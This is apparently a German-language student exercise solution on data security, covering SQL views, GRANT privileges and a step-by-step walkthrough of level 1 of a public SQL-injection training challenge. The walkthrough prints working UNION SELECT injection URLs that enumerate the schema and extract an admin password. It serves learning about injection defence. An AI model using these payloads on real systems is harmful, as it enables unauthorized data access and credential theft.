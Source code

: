 # Exercises DS : Datensicherheit

[ILIAS Dokument](https://elearning.hslu.ch/ilias/goto.php?target=file_3706953_download)

Gruppe 04 - Timo Furrer, David Staub, Dominik Waldispühl

## 1. Selbststudium

### Was heisst Datensicherheit?

> Als Datensicherheit oder globaler noch Informationssicherheit bezeichnet man die Eigenschaften von IT-Systemen die die Vertraulichkeit, Verfügbarkeit und die Integrität der Informationen sicherstellen. Die Informationen werden dabei eingeschränkt (Vertraulichkeit) überprüfbar gemacht (Integrität) und mehrfach abgespeichert (Verfügbarkeit).

Quelle : https://www.mastertools.ch/blog/posts/2013/september/datensicherheit-vs-datenschutz/

### Welche Rolle spielen Sichten für die Datensicherheit?

Über die Sichten (engl. "Views") können für Verschiedene Nutzergruppen, respektive Nutzer, seperate Zugriffsberechtigungen auf die Daten gegeben werden. Ein Datenanalyst benötigt zum Beispiel lediglich nicht-personenbezogene Daten, somit kann die Tabelle mit den sensitiven Daten ausgeblendet werden in der View. Für einen Buchhalter sind aber genau diese Informationen am wichtigstens, deswegen kann ihm eine andere View zugeteilt werden, mit unterschiedlichen Rechten.

### Was heisst Grant? Was heisst Grant Option?

"Grant", zu Deutsch "gewähren", ist ein Keyword, mit welchem man Nutzern gewisse Berechtigungen auf eine Tabelle oder View zuweisen oder entfernen kann.

Wenn dem Keyword "Grant" noch das Keyword "Option" hinzugefügt wird, kann man die Rechtevergabe für das spezifische Privleg weiterreichen. Somit kann der neu gewährte User ebenfalls dieses Privileg an weitere Nutzer gewähren.

### Was ist SQL-Injection? Wie schützt man sich davor?

Bei SQL-Injection handelt es sich um eine gewollte Injektion von Code/Scripts bei Eingabemasken, um Daten zu verändern/löschen/erstellen. Typischerweise wird hier gewollt der Text der Eingabemaske "beendet" um danach SQL Statements zu schreiben, welche dann Daten herausholen, auf der Datenbank löschen oder verändert werden.

Da der Eingabetext potenziell immer ausführbaren SQL-Code enthalten könnte, sollte man die SQL-Statement-Generierung bewusst im Vorhinein kompilieren, und dann den Eingabetext als Parameter einfügen. Dies geht auf der Client-Seite mit "Prepared Statements" und auf der DB-Server-Seite mit "Stored Procedures".

## 2. Views und Grants

-> Gegeben ist die Ausgangslage in der Beispieldatenbank Uni auf ihrem lokalen MySQL Server. Die Professoren dürfen jeweils nur die Vorlesungen verändern (update, delete, insert), die von Kollegen mit dem gleichen Rang durchgeführt (gelesenVon) werden. Alle Professoren dürfen die Vorlesungen der Kollegen mit gleichem Rang abfragen (select). Zudem dürfen Professoren mit Rang C4 die Vorlesungen der Kollegen mit Rang C3 abfragen, aber nicht umgekehrt.



### Erstellen Sie pro Professor ein Benutzer mit gleichem Benutzernamen. Wählen Sie als Passwort ‚@‘ plus den Namen.

```sql
CREATE USER 'Sokrates' IDENTIFIED BY '@Sokrates';
CREATE USER 'Russel' IDENTIFIED BY '@Russel';
CREATE USER 'Kopernikus' IDENTIFIED BY '@Kopernikus';
CREATE USER 'Popper' IDENTIFIED BY '@Augustinus';
CREATE USER 'Augustinus' IDENTIFIED BY '@Augustinus';
CREATE USER 'Curie' IDENTIFIED BY '@Curie';
CREATE USER 'Kant' IDENTIFIED BY '@Kant';
```

### Erstellen Sie zwei (änderbare) Sichten (updateable views), zusammen mit den entsprechenden Rechtevergaben, welche diese Anforderungen erfüllen:

```sql
CREATE VIEW view_c4 AS
  SELECT vorlesungen.* FROM vorlesungen INNER JOIN
    professoren ON (vorlesungen.gelesenVon = professoren.PersNr)
  WHERE professoren.Rang = 'C4';
  
CREATE VIEW view_c3 AS
  SELECT vorlesungen.* FROM vorlesungen INNER JOIN
    professoren ON (vorlesungen.gelesenVon = professoren.PersNr)
  WHERE professoren.Rang = 'C3';
```

* Alle Professoren mit Rang C4 sollen das Recht SELECT, INSERT, UPDATE und DELETE auf die View view_c4 kriegen.

```sql
SELECT Name 
FROM professoren
WHERE Rang = 'C4';

/* Sokrates, Russel, Curie, Kant */

GRANT select, insert, update, delete ON view_c4 TO Sokrates;
GRANT select, insert, update, delete ON view_c4 TO Russel;
GRANT select, insert, update, delete ON view_c4 TO Curie;
GRANT select, insert, update, delete ON view_c4 TO Kant;
```

* Zudem sollen Professoren mit Rang C4 das Recht SELECT auf die View view_c3 erhalten.

```sql
GRANT select ON view_c3 TO Sokrates;
GRANT select ON view_c3 TO Russel;
GRANT select ON view_c3 TO Curie;
GRANT select ON view_c3 TO Kant;
```

* Alle Professoren mit Rang C3 sollen das Recht SELECT, INSERT, UPDATE und DELETE auf die View view_c3 kriegen.

```sql
SELECT Name 
FROM professoren
WHERE Rang = 'C3';

/* Kopernikus, Popper, Augustinus */

GRANT select, insert, update, delete ON view_c3 TO Kopernikus;
GRANT select, insert, update, delete ON view_c3 TO Popper;
GRANT select, insert, update, delete ON view_c3 TO Augustinus;
```

## 3. SQL Injection

-> Lösen Sie das Level 1 des SQL-Injection Hackits von gehaxelt: http://hackit.gehaxelt.in

Dokumentieren Sie Ihr Vorgehen und ihre Lösung möglichst genau und nachvollziehbar.

### Dokumentation der Lösung

Beim starten des ersten Levels wird im unteren Bereich der Fehler ` Fehler: Parameter 'id' ist nicht gesetzt. ` ausgegeben. Dies deuted darauf hin, dass in der URL der Parameter `id` fehlt. 

Sobald man den Parameter in die URL einfügt, kommt der nächste Hinweis. Zahlen von 1-3 ergeben verschiedene Usernamen
>`http://hackit.gehaxelt.in/sqli/level1.php?id=1`

* (1) Der Username lautet: adminer 
* (2) Der Username lautet: rooter 
* (3) Der Username lautet: test 

Über einen UNION SELECT wird dann probiert herauszufinden wieviele Spalten die Tabelle hat, aus welcher die Benutzer gelesen werden. Für dies musste die Spaltenanzahl stetig erhöht werden und die AND Bedingung muss falsch sein (in diesem fall 1=5 was false ist). Dann 

`http://hackit.gehaxelt.in/sqli/level1.php?id=1 AND 1=5 UNION SELECT 1,2,3,4,5`

>  Der Username lautet: 2 

Jetzt weiss man dass die Spaltenanzahl 5 ist und dass man beim UNION SELECT die 2 durch andere Funktionen ersetzen kann, um dann mehr Infos zu erhalten, welche dann ausgegeben werden. Ziel wäre es jetzt, an den Tabellennamen von den Benutzern zu kommen, um das Passwort auslesen zu können. Um an das Schema heranzukommen, benötigen wir den Namen der DB, dazu versuchen wir folgendes:

`http://hackit.gehaxelt.in/sqli/level1.php?id=1 AND 1=5 UNION SELECT 1,database(),3,4,5`

>  Der Username lautet: level_1_jkjashd 

Den Datenbanknamen haben wir jetzt, dann kann das Schema ausgelesen werden:

`http://hackit.gehaxelt.in/sqli/level1.php?id=1 AND 1=5 UNION SELECT 1,table_name,3,4,5 from information_schema.tables where table_schema='level_1_jkjashd'`

> Der Username lautet: user 

Jetzt müssen die Columns herausgefunden werden (LIMIT 0,1-- inkrementieren):

`http://hackit.gehaxelt.in/sqli/level1.php?id=1 AND 1=5 UNION SELECT 1,column_name,3,4,5 from information_schema.columns where table_schema='level_1_jkjashd' and table_name='user' LIMIT 0,1--`

>* (LIMIT 0,1--) Der Username lautet: id 
>* (LIMIT 1,1--) Der Username lautet: username 
>* (LIMIT 2,1--) Der Username lautet: passwort 
>* (LIMIT 3,1--) Der Username lautet: email 
>* (LIMIT 4,1--) Der Username lautet: admin 

Zuletzt kann man nun das Passwort auslesen

`http://hackit.gehaxelt.in/sqli/level1.php?id=1 AND 1=5 UNION SELECT 1,passwort,3,4,5 from level_1_jkjashd.user LIMIT 0,1--`

>  Der Username lautet: me_as_a_admin 

Das Passwort des Admins lautet also `me_as_a_admin`
